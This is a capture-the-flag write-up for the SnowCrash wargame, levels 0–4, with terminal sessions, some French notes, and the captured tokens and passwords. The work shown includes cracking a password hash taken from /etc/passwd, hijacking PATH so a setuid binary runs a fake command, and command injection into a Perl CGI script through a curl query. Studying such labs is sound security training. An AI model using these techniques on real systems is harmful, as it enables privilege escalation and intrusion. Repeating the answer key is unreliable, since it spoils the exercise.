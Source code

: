# snow-crash

## level-0
level00@SnowCrash:~$ find / -user "flag00" 2> /dev/null 
/usr/sbin/john
/rofs/usr/sbin/john
level00@SnowCrash:~$ cat /usr/sbin/john 
cdiiddwpgswtgt


https://www.dcode.fr/chiffre-cesar
nottoohardhere


level00@SnowCrash:~$ su flag00
Password: nottoohardhere
Don't forget to launch getflag !
flag00@SnowCrash:~$ getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias

## level-1

level01@SnowCrash:~$ cat /etc/passwd


flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

vim hash.txt
                                                                                                                     
john hash.txt 
Created directory: /home/ju/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 3072 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (flag01)     
1g 0:00:00:00 DONE 2/3 (2025-01-15 17:11) 50.00g/s 3750Kp/s 3750Kc/s 3750KC/s 123456..2nesbitt
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$

## level-2

└─$ scp -P 4242 level02@192.168.1.36:/home/user/level02/level02.pcap .                           


wireshark level02.pcap 

ft_wandr...NDRel.L0L(0d)(000d0a)(01)

7f

ft_wandr...NDRel.L0L(0d)(000d0a)(01)
ft_waNDReL0L(0d)(000d0a)(01) 
ft_waNDReL0L

level02@SnowCrash:~$ su flag02
Password: 
Don't forget to launch getflag !
flag02@SnowCrash:~$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
flag02@SnowCrash:~$ 


## level-3

Une fois l executable decompilé avec ghidra
```c
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

("/usr/bin/env echo Exploit me");

on voit un appel systeme sur echo 
on change le path pour executer la commande getflag
whereis getflag
changement du path: echo '/bin/getflag' > '/tmp/echo'
unset PATH
export PATH=/tmp
./level03

flag='qi0maab88jeaj46qoumi7maus'

## level-4
level04@SnowCrash:~$ cat level04.pl
```perl
#!/usr/bin/perl
#localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

